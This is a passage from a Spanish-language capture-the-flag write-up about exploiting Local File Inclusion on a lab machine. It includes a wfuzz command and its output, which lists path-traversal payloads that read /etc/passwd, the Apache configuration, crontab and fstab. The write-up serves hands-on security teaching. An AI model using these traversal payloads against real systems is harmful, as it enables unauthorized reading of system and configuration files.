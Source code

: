 | Parámetros | Descripción |
|--------------------------|
| *-u*       | Para indicar la URL a utilizar. |
| *-w*       | Para indicar el diccionario a usar en el fuzzing. |
| *-t*       | Para indicar la cantidad de hilos a usar. |

<br>

Muy bien, supongo que ahí es donde se guardarán los archivos que subamos.

Continuemos.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Explotacion" style="text-align:center;">Explotación de Vulnerabilidades</h1>
</div>
<br>


<h2 id="LFI">Aplicando Local File Inclusion (LFI)</h2>

Si intentamos incluir un archivo random, podemos ver cómo aparece el parámetro `page=` en la URL:

<p align="center">
<img src="/assets/images/THL-writeup-templo/Captura8.png">
</p>

Vamos a ocupar **wfuzz** para utilizar el wordlist **LFI-Jhaddix.txt** y así podamos comprobar si es posible aplicar **LFI** y qué formas son válidas:
```bash
wfuzz -c --hc=404 --hh=2993 -t 300 -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt http://192.168.10.70/NAMARI/index.php?page=FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************
.
Target: http://192.168.10.70/NAMARI/index.php?page=FUZZ
Total requests: 929
.
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                      
=====================================================================

000000016:   200        142 L    303 W      4776 Ch     "/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"                                          
000000020:   200        142 L    303 W      4776 Ch     "..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"                                                        
000000023:   200        142 L    303 W      4776 Ch     "..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd"                                                                                     
000000121:   200        338 L    1376 W     10445 Ch    "/etc/apache2/apache2.conf"                                                                                                  
000000129:   200        109 L    260 W      3063 Ch     "/etc/apt/sources.list"                                                                                                      
000000131:   200        131 L    459 W      4129 Ch     "/etc/crontab"                                                                                                               
000000135:   200        120 L    343 W      3650 Ch     "/etc/fstab"                                                                                                                 
```
